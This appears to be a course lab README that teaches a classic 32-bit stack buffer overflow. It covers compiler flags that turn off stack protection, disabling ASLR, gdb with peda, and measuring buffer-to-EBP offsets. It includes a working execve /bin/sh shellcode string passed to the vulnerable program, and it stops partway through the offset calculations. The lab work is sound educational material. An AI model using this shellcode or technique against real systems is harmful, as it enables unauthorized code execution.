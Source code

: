 # Lab6

Learn to do a good old overflow.

## Files

* shell.c - a simple example of running a shell code from memory
* vulnerable.c - first version of the program
* mystack.c - the program that will be exploited, same as vulnerable.c, but has
a timeout to allow us to inspect the memory wit `gdb`


## Preparations

### Compilation

The flags are set on the Makefil.

To binary is for 32bit arch, no stack protectors, and executable memory on stack

* `-m32` -> compile for 32bit arch
* `-fno-stack-procetor` -> disable stack guards and whatever
* `-z execstack` -> no W^X limits, any memmory page can be executed

### ASLR

Turn of addres space randomization layout thing

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

This will keep the same memory address for our variables and buffers


### Debugger

Use GDB, but with the "[peda](https://github.com/longld/peda.git)" estension.

Installation:

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```


## The script

Use `make mys` to compile the program, make sure the lines for the `while` loop
are NOT commented

```
./mys $(python2 -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"*7)')
```

From another terminal run `gdb attach $(which mys)`

Create a break point at the line with `strcpy` e.g. `break mystack.c:14`
Type `continue`

After all the timeout we can look at the *buffer* address `p &buffer`
as well as the EBP address

```
EBP: 0xffffcfd8 --> 0xffffcff8 --> 0x0
$1 = (char (*)[32]) 0xffffcfb0
```

### Values

first run:

EBP: 0xffffcfd8 --> 0xffffcff8 --> 0x0
$1 = (char (*)[32]) 0xffffcfb0

CFD8 - CFB0 = 40 
40 - 32 = 8 padding

second run:

EBP: 0xffffcfb8 --> 0xffffcfd8 --> 0x0
$1 = (char (*)[32]) 0xffffcf90

CFB8 - CF90 = 40
